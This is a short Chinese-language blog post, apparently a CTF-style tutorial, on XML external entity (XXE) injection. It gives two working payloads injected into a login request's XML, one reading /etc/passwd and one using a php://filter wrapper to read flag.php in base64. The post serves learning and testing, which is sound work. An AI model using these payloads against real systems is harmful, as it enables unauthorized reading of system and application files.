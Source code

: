 ```yaml
---
title: XML外部实体注入 (XXE漏洞)
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - inject
    - xxe
description: XXE漏洞的利用场景和流程
abbrlink: bc3fe178
tags:
---
```


# XML外部实体注入 (XXE漏洞)

## XXE简介
xxe漏洞就是xml外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害

## 利用场景和流程
抓包发现请求包里面直接存在
```xml
<user>
    <username>
        1
    </username>
    <password>
        1
    </password>
</user>

```

测试能否读取文件
```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///etc/passwd">
]>
<user>
    <username>
        &test;
    </username>
    <password>
        123
    </password>
</user>
```

然后读取flag.php
```xml
<!DOCTYPE ANY [
    <!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php">
]>
<user>
    <username>
        &admin;
    </username>
    <password>
        123
    </password>
</user>
```